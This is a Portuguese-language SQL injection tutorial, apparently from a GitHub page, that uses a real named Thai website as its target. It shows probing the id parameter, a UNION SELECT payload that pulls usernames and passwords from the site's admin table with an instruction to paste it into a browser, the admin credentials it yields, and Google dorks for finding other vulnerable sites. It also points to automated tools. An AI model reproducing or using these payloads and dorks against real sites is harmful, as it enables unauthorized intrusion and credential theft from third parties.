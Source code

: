 Exemplo, olha esse site da Tailândia:

```
http://www.thailandquitline.or.th/news.php?id=58
```

Legal, né?

Só por curiosidade, experimente incrementar o valor passado para a variável id:

- http://www.thailandquitline.or.th/news.php?id=59
- http://www.thailandquitline.or.th/news.php?id=60

Esses valores são identificadores de dados armazenados no banco. De certa forma, quando você manipula esses valores você está interagindo com o banco de dados do site, uma vez que, a cada valor diferente de ID que você definir gerará uma consulta SELECT diferente pelo script news.php.

Se você acrescentar uma aspa simples junto ao id, poderá ver uma mensagem de erro retornada:

```
http://www.thailandquitline.or.th/news.php?id=60'
```

Isso aconteceu porque a consulta feita pelo news.php para o banco de dados foi 'corrompida', uma vez que o número passado para a variável id continha um código SQL (o aspa ' ). Isso é um bom sinal. Indo mais além, olhe isto:

```
http://www.thailandquitline.or.th/news.php?id=-58 union all select concat(username,0x3a,password),2,3,4 from admin--
```

Copie tudo que está na linha a cima e cole no seu navegador.

```
Login: admin
Senha: systemadmin
```

Ciente de que existe um padrão na exploração de SQL injection (detecção do SGBD usado, enumeração de tabelas, busca por campos de tabela de usuarios para extração de login e senha e etc), alguns especialistas no assunto desenvolveram ferramentas que automatizam isto, como é o caso do Havij e do SQLMAP:

- http://itsecteam.com/products/havij-advanced-sql-injection/
- http://sqlmap.org/

#### Como encontrar sites vulneráveis á SQLi ?

A resposta: GOOGLE

Os sites que postei aqui foram encontrados por ele. Eu me utilizei de recursos avançados do Google para pesquisas mais específicas.

Help: https://support.google.com/websearch/answer/2466433?hl=pt-BR

Buscas específicas utilizando de operadores avançados de pesquisa do Google são comumente chamados de "dorks", exemplo de como encontrei os sites vulneráveis da Itália:

```
inurl:/admin/admin.php +site:it
```
